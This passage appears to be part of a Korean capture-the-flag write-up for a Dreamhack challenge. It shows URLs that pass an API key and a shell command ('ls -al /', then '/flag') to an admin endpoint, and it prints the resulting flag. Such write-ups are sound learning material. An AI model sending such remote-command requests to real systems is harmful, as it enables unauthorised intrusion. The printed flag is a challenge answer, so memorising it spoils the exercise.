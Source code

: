 [`http://host3.dreamhack.games:10365/admin?API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f&&cmd=ls -al /`](http://host3.dreamhack.games:10365/admin?API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f&&cmd=ls%20-al%20/) root 페이지를 확인하면 flag 파일이 실행권한만 가진채로 존재하는 것을 확인할 수 있다. 따라서 이 flag 파일을 실행시키자.

![플래그값.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/53e2f3be-94e9-4535-bd75-c850430ae2a6/%ED%94%8C%EB%9E%98%EA%B7%B8%EA%B0%92.png)

```jsx
DH{2a4ff4e94d09793c662d1bd7ec5d497d7b190c6f}
```

[`http://host3.dreamhack.games:10365/admin?API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f&&cmd=/flag`](http://host3.dreamhack.games:10365/admin?API_KEY=d22cb18e86fc9e23996650150461c9f794ad3a4f&&cmd=/flag) 를 이용해서 root 위치의 flag 파일을 실행시키면 플래그 값인 `DH{2a4ff4e94d09793c662d1bd7ec5d497d7b190c6f}` 를 알아낼 수 있다.
